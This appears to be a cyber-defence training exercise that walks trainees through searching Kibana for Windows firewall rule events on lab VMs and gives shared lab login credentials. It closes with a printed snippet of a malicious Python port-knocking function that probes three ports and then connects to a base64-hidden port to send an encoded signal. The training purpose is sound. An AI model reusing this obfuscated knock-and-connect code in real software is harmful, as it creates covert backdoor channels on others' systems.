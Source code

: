 ﻿

NOTE: The VM win-hunt, Security Onion, and Elastic Stack should be open from the prior workflow. If they are not, use the following credentials to open them:

﻿

win-hunt﻿

Username: trainee
Password: CyberTraining1!
﻿

Security Onion and Elastic﻿

Username: trainee@jdmss.lan
Password: CyberTraining1!
﻿

Workflow
﻿

1.  Set the date range for Kibana from September 16, 2022 @ 09:00 to September 16, 2022 @ 13:00.

﻿

2. Show event logs related to the Microsoft firewall by using the following search filter:

event.code:"2004" or event.code:"2006"

﻿

Event code 2004 is related to the creation of a new firewall rule, and event 2006 is related to the deletion of a firewall rule.

﻿

The message field contains information related to the firewall rule. Included in the information are the rule name, rule direction, and protocol. The port number is included not here but, instead, in the winlog.event_data.LocalPorts field.

﻿

Keep all VMs and tools open, and answer the following questions.
<img width="1077" height="535" alt="image" src="https://github.com/user-attachments/assets/fa47ba9d-786e-4b22-8c8e-21b8df8b7f75" />

Knowledge Check
The following is a snippet from the malicious script that displays a function:

﻿

d﻿ef pop(a,i):
 ﻿   ran = [65535//i, 32768+i, 1337*i]
 ﻿   stat = []
 ﻿   for r in ran:
 ﻿       ps = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 ﻿       ps.setdefaulttimeout(1)

 ﻿       s = ps.connect_ex((a,r))
 ﻿       if s == 0:
 ﻿           stat.append("OK")
 ﻿       ps.close()
 ﻿   if(len(stat) == 3):
 ﻿       ps = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 ﻿       connect((a,int(base64.b64decode(b'NDg5NDQ=').decode())))
 ﻿       ps.sendall(base64.b64decode(b'MHhGRUVEQkVFRg=='))
 ﻿       ps.close()
